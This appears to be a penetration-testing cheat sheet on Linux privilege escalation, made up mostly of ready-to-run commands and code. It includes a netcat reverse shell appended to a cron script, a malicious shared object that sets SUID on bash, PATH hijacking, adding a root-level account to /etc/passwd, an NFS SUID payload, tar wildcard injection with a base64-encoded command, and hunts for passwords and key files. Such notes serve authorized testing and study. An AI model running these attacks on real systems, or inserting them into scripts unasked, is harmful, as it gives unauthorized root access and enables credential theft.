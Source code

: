 # 🐧 Linux Privesc

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# wide
ps auxww
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

!!! tip
    🍪 Try to switch users using username as pass

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run **strings** on the file to look for strings of printable characters:

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -p' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH
```

```shell
apache2
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.

First, execute the file and notice the missing object error.

If there is no feedback, run **strace** on the file and search the output for open/access calls and for "no such file" errors:

```shell
strace suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the `libcalc.so` file: `mkdir .config`

After knowing the path, compile a malicious code into a shared object at the location the **suid-so** executable is looking for:

```c
#include <stdlib.h>

__attribute__((constructor)) void make_setuid() {
    system("chmod +s /bin/bash");
}
```

```shell
gcc -shared -fPIC libcalc.c -o libcalc.so 
```

Execute `/bin/bash -p` to gain a root shell.

```shell
/bin/bash -p
```

## Weak file permissions

```shell
# check if /etc/shadow can be readed and get the root hash or the file
unshadow passwd shadow > passwords.txt

# check if /etc/shadow can be writable and put a new root hash
mkpasswd -m sha-512 newpassword

# check if /etc/passwd can be writable and put a new root hash
openssl passwd newpass
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

- [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)
- [Liinux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```

## Tar Wildcard

A script that uses tar with a wildcard ( * ) is vulnerable to arbitrary command execution via maliciously crafted checkpoint files in the target directory.

```shell
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo

touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```
